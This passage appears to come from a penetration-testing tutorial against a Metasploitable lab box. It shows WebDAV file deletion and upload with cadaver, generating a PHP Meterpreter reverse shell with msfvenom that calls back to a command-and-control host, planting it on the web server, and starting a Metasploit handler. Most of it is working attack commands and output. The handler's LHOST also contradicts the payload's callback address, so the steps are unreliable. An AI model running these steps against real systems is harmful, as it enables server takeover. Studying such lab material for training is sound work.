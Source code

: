 
If you want to delete or move files:
```

root@morpheus:~# cadaver http://10.0.0.27/dav
dav:/dav/> delete test.txt
```

## Get a PHP Shell

In this example we'll use Metasploit to obtain a remote shell. We will do this by creating a PHP file that will give us a remote shell using msfvenom, then upload the PHP script via WebDAV.

### Create A Payload

The msfvenom utility can be used to generate a reverse TCP shell in a PHP script. There's some important information contained here: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit

Basically, here's what you specify with msfvenom:
```

    LHOST - this is the machine that you want your target machine to try and connect to. This must be the publicly-visible (or at least visible to the target) IP of your command-and-control server.
    LPORT - this is the port number that you want the target machine to connect to. The command-and-control server must have this port open, for the target to connect to it.
    ```

In this case, Metasploitable is on the local network, so the command-and-control server's IP address is 10.0.0.25.

root@morpheus:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.25 LPORT=4444 -f raw > meterpreter.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 945 bytes

Now use cadaver to connect and put the PHP shell onto the web server:
```

root@morpheus:~# cadaver http://10.0.0.27/dav
dav:/dav/> put meterpreter.php
Uploading meterpreter.php to `/dav/meterpreter.php':
Progress: [=============================>] 100.0% of 945 bytes succeeded.
dav:/dav/>
```

Two more steps:

First, open msfconsole and wait for a connection from the remote host.
```

msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 10.0.0.27
LHOST => 10.0.0.27
msf exploit(handler) > run
